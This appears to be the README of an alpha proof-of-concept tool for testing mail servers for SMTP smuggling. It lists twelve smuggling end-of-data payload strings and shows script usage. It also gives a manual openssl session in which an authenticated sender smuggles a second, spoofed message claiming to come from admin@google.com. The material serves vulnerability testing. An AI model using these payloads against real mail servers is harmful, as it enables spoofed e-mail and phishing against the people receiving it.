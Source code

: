# smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3

<hr>

### Testing of postfix mailserver for example (localhost port 25 auth plain login(optinal)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)


#### Testing these 12 payload strings:
```bash
#Smgggling Strings (0-11):
#smtp_smuggle_escape = '\r\n.\r'
#smtp_smuggle_escape = '\r.\r'
#smtp_smuggle_escape = '\r\n\x00.\r'
#smtp_smuggle_escape = '\r\n\x00.\n'
#smtp_smuggle_escape = \r\n\x00.\r\n
#smtp_smuggle_escape = \r\n.\x00\r\n
#smtp_smuggle_escape = '\r\n.'
#smtp_smuggle_escape = \n.\r\n
#smtp_smuggle_escape = \r.\r\n
#smtp_smuggle_escape = \n\n.\r\n
#smtp_smuggle_escape = \r\n.\r
#smtp_smuggle_escape = \n.\n
```

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

    
usage: smtp_amuggler_poc.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE]

Send mail with TLS und AUTH PLAIN.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-Servername DNS or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL)
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def
```

<hr>

### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!
#
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@server.com --rcpt vic@server.com --mode def
```

<hr>

### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

